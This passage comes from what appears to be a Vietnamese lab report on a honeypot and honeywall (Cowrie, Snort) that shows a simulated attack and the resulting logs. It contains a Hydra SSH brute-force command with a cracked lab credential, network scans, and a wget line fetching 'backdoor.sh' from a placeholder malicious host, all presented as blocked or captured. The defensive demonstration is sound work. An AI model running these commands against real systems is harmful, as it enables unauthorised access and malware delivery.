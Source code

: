 **3. Brute Force Honeywall**

![Brute Force](/images/projects/honeypot/demo2-bruteforce.png)
*Hình 18: Hydra tấn công Honeywall*
```bash
hydra -L users.txt -P passwords.txt ssh://192.168.159.143:2222 -t 4

# Tìm được:
[2222][ssh] host: 192.168.159.143   login: admin   password: password123
```

**4. SSH vào "Honeywall" (thực chất là Honeypot)**

![SSH Honeypot](/images/projects/honeypot/demo2-ssh.png)
*Hình 19: Hacker tưởng mình vào Honeywall*

**5. Exploring & Network Scan**

![Khai thác DMZ](/images/projects/honeypot/demo2-exploit.png)
*Hình 20: Hacker quét DMZ và thử tải mã độc*
```bash
# Hacker chạy:
nmap -sn 192.168.2.0/24  # Quét DMZ (phản hồi giả)
ssh admin@192.168.2.1    # Cố kết nối máy khác - BỊ CHẶN
wget http://malicious.com/backdoor.sh  # BỊ NGẮT
```

### **Kết quả Kịch bản 2**

**Log của Cowrie:**

![Cowrie Log Demo 2](/images/projects/honeypot/demo2-cowrie-log.png)
*Hình 21: Cowrie ghi nhận toàn bộ hành động*

**Log của Honeywall:**

![Honeywall Log 1](/images/projects/honeypot/demo2-honeywall-log1.png)
*Hình 22: Honeywall phát hiện tấn công*

![Honeywall Log 2](/images/projects/honeypot/demo2-honeywall-log2.png)
*Hình 23: Chi tiết gói tin từ hacker*

![Snort Analysis](/images/projects/honeypot/demo2-snort.png)
*Hình 24: Snort biên dịch log thành công*

**Phân tích:**
- ✅ Honeywall NAT traffic thành công
- ✅ Hacker tưởng mình hack Honeywall
- ✅ Thực tế vào Honeypot trong DMZ
- ✅ Không thể kết nối máy khác trong DMZ
- ✅ Mạng LAN (192.168.3.0/24) an toàn tuyệt đối

---

